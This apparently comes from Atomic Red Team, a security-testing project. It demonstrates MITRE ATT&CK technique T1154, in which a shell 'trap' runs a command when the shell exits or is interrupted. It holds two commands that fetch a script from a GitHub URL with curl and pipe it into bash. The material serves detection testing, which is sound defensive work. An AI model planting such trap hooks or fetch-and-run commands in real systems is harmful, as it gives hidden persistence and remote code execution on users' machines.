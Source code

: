 # Trap

MITRE ATT&CK Technique: [T1154](https://attack.mitre.org/wiki/Technique/T1154)


    trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash' EXIT

    exit

After exiting the shell, the script will download and execute.

    trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash' INT

After sending a keyboard interrupt (CTRL+C) the script will download and execute.